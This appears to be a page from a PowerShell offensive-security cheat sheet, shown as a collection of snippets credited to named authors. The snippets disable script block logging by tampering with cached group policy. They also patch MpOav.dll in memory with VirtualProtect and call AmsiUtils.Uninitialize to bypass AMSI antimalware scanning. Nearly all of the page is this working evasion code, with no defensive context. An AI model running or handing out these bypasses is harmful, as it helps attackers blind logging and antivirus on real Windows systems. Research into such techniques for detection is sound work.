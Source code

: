 ```powershell
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type -TypeDefinition $Patch -Language CSharp
[patch]::it()
```

## Cobbr

```powershell
# Author: Cobbr

$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
If ($GroupPolicyField) {
    $GroupPolicyCache = $GroupPolicyField.GetValue($null);
    If ($GroupPolicyCache['ScriptBlockLogging']) {
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
    }
    $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptBlockLogging', 0);
    $val.Add('EnableScriptBlockInvocationLogging', 0);
    $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
};
```

## subat0mik

```powershell
Add-Type $Win32APIs
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x07, 0x80, 0xc3)
$LoadLibrary = [Win32APIs]::LoadLibrary("MpOav.dll")
$Address = [Win32APIs]::GetProcAddress($LoadLibrary, "DllGetClassObject")
$oldprotect = 0

[Win32APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$oldprotect)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

$object = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object, $null)
```

---
## References
